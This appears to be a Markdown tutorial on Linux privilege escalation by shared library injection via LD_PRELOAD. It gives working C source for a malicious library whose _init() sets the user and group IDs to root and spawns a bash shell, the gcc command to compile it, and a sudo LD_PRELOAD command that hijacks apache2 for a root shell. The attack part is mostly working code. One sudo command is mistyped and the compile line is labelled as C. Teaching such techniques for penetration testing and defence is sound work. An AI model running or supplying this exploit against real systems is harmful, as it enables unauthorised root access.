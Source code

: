 # Shared Library Injection

### 📚 What Is a Shared Library?

A **shared library** is a file that contains **common code** that different programs can use without having to duplicate that code.

- For example, the library `libc.so` is used by many programs to handle basic tasks like printing text or handling files.

Instead of every program including the same code, it just uses the shared library when needed. This helps save memory and makes the system more efficient.

---

### 🧨 What Is Shared Library Injection?

**Shared library injection** is when we **force a program to load a malicious shared library** (a `.so` file) to **run code** we want, like opening a root shell, changing settings, or escalating privileges.

For example, if we trick a program running with **root permissions** to load our malicious library, we can gain **root access**.

### 🔧 Tools & Techniques for Injection

There are two common methods to inject a shared library:

1. **LD_PRELOAD**: A special environment variable that allows you to inject your custom shared library into a running program.
2. **ptrace**: A system call that allows a program to control and modify another process’s memory, which can also be used for injection.

We’ll focus on the **LD_PRELOAD** method in this example.

---

## 🧑‍💻 Privilege Escalation Example: Using `LD_PRELOAD`

### 1. **Check What You Can Do With Sudo**

First, check what commands you can run as `sudo`:

```bash
sudo -
```

**Explanation**:

- `sudo -l`: This command lists all the commands you are allowed to run as root (administrator).
- You’re looking for something that runs with `sudo` without asking for a password.

### Example Output:

```
(env_keep+=LD_PRELOAD)
(root) NOPASSWD: /usr/sbin/apache2
```

**What this means**:

- You can run `/usr/sbin/apache2` as **root** (with full permissions) without password.
- The `LD_PRELOAD` environment variable is not restricted, which means you can **inject your own shared library** into the running process.

### 2. **Create a Malicious Shared Library**

Now, we’ll create a malicious shared library that, when loaded, will give us a **root shell**.

- Create a new C file called `shell.c`:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");  // Remove LD_PRELOAD to avoid infinite recursion
setgid(0);  // Set group ID to 0 (root)
setuid(0);  // Set user ID to 0 (root)
system("/bin/bash");  // Execute a root shell
}
```

**Explanation**:

- **`_init()`**: This function is special because it runs automatically when the shared library is loaded.
- **`setuid(0)` and `setgid(0)`**: These commands give us root privileges (UID and GID 0).
- **`system("/bin/bash")`**: This command spawns a **root shell**.

### 3. **Compile the Shared Library**

Now, we need to compile the C code into a shared library file (the `.so` file).

```c
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

**Explanation**:

- **`gcc`**: This is the C compiler.
- **`fPIC`**: This option tells the compiler to create **position-independent code**, which is needed for shared libraries.
- **`shared`**: This creates a shared library, not a regular executable.
- **`o shell.so`**: This specifies the output file name (`shell.so`).
- **`nostartfiles`**: This tells the compiler to skip the default start-up code and use our custom `_init()` function.

### 4. **Inject the Library and Gain Root Access**

Now, run the program (`apache2` in this case) with `sudo` and inject the malicious library using `LD_PRELOAD`:

```bash
sudo LD_PRELOAD=/full/path/to/shell.so /usr/sbin/apache2
```

**Explanation**:

- **`sudo`**: This runs a command as root (administrator).
- **`LD_PRELOAD=/full/path/to/shell.so`**: This tells the system to **preload** our malicious shared library (`shell.so`) before anything else, effectively hijacking the behavior of the `apache2` binary.
- **`/usr/sbin/apache2`**: This is the target binary that you’re running as root.

Once you run this command, it will load your malicious library, and the `_init()` function will run. This gives you a **root shell**.
